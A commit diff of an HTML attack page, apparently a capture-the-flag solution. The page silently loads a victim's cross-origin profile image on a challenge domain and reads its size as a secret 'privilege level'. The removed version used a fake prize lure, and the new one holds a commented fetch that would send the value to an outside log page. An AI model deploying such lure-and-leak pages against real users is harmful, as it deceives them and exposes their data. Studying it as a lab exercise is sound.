

Before and after one commit to JoseBaigorria/desafio-pepe, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 74-800 px from the top of the page, without its empty margins (0-735 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update HTML content and image loading script

```diff
--- a/index.html
+++ b/index.html
@@ -1,56 +1,71 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>¡Felicidades, ganaste algo!</title>
+    <title>¡Procesando su solicitud!</title>
     <meta charset="UTF-8">
 </head>
 <body>
 
-    <h1>🎉 ¡Has sido seleccionado para un premio! 🎉</h1>
-    <p>Solo haz clic en el botón para reclamarlo y vuelve a la pestaña anterior.</p>
-    <button onclick="cerrarVentana()">Reclamar mi premio</button>
+    <h1>⌛ Procesando su solicitud... Por favor espere. ⌛</h1>
+    <p>Este sitio cargará su perfil de usuario en unos segundos y luego se cerrará automáticamente.</p>
+
+    <div id="log"></div>
 
     <script>
+        // Función para agregar mensajes al log en la página
+        function logMessage(msg, type = 'info') {
+            const logDiv = document.getElementById('log');
+            const color = type === 'success' ? 'green' : type === 'error' ? 'red' : 'blue';
+            logDiv.innerHTML += `<p style="color: ${color}; margin: 5px 0;">[${new Date().toLocaleTimeString()}] ${msg}</p>`;
+        }
+
+        logMessage("Inicio de script. Intentando cargar la imagen de Pepe...");
+
+        // Dominio del desafío (Tu URL es de HTTPS)
         const DOMINIO_DESAFIO = "https://chl-0be918a6-5b4f-4de5-b30a-669e10a3cf51-imagen-importante.softwareseguro.com.ar";
+
+        // URL de la imagen de Pepe
         const URL_IMAGEN = DOMINIO_DESAFIO + "/profile-pic";
 
         // 1. Crear un elemento de imagen oculto
         const img = new Image();
-        // Intentar forzar el modo CORS anónimo. Esto es necesario si el servidor del desafío
-        // no tiene cabeceras CORS, pero puede fallar si la configuración es estricta.
-        img.crossOrigin = "anonymous";
+        img.crossOrigin = "anonymous"; // Se mantiene el intento de forzar CORS, aunque puede fallar.
 
         // 2. Definir lo que haremos cuando la imagen cargue
         img.onload = function() {
-            // Obtener las dimensiones originales (naturales) de la imagen
+            logMessage("La imagen parece haber cargado.", 'info');
+
+            // Obtener las dimensiones originales (naturales)
             const ancho = img.naturalWidth;
             const alto = img.naturalHeight;
-
-            // Calcular el Nivel de Privilegio: ancho x alto
             const nivel = ancho * alto;
 
-            // 3. Mostrar el resultado
-            let resultado = `✅ Imagen Cargada: ${ancho}x${alto} píxeles.`;
-            resultado += `<br>✅ Nivel de Pepe: ${nivel}`;
-            resultado += `<br>🚨 **HASH MD5 requerido de:** ${nivel}`;
+            // ⚠️ VERIFICACIÓN CRÍTICA:
+            // Si ancho y alto son 0, 1, o el tamaño de la imagen de error, la lectura falló por SOP.
+            if (ancho <= 1 || alto <= 1 || nivel === 0) {
+                 logMessage(`❌ FALLA DE LECTURA (SOP): Ancho=${ancho}px, Alto=${alto}px. Dimensiones no válidas. El navegador bloqueó la lectura del tamaño.`, 'error');
+            } else {
+                 // 3. Éxito: Mostrar y reportar el resultado
+                logMessage(`✅ ÉXITO DE LECTURA: ${ancho}x${alto} píxeles.`, 'success');
+                logMessage(`✅ Nivel de Pepe: ${nivel}`, 'success');
+                logMessage(`🚨 HASH MD5 requerido de: ${nivel}`, 'success');
 
-            document.body.innerHTML += `<p style="color: red; font-weight: bold;">${resultado}</p>`;
+                // En un ataque real, el envío automático de datos sería aquí:
+                // fetch('https://josebaigorria.github.io/desafio-pepe/log.html?level=' + nivel);
+            }
+
+            // Opcional: Cerrar la ventana automáticamente (para simular un ataque limpio)
+            // setTimeout(() => { window.close(); }, 5000); // Cierra después de 5 segundos
+
         };
 
         img.onerror = function() {
-            // Manejo de error: Falla de carga o bloqueo por la Política de Mismo Origen (SOP).
-            // Si ves este error, el desafío podría requerir otra técnica (como XSS en el sitio principal)
-            document.body.innerHTML += "<p style='color: orange; font-weight: bold;'>⚠️ Error al cargar la imagen. Es posible que el navegador de Pepe esté bloqueando el acceso a las dimensiones por seguridad (SOP).</p>";
+            // El onerror se dispara si la URL de la imagen es incorrecta o el servidor la rechaza.
+            logMessage(`❌ ERROR FATAL: No se pudo cargar la imagen desde ${URL_IMAGEN}. Revisa la ruta '/profile-pic'.`, 'error');
         };
 
-        // 4. Iniciar la carga de la imagen
+        // 4. Iniciar la carga de la imagen (Se ejecuta inmediatamente al abrir la página)
         img.src = URL_IMAGEN;
-
-        // Función para cerrar la pestaña y dar la ilusión de "ataque completado"
-        function cerrarVentana() {
-            window.close();
-            alert("¡Premio reclamado! Vuelve a la pestaña anterior.");
-        }
     </script>
 </body>
 </html>
```
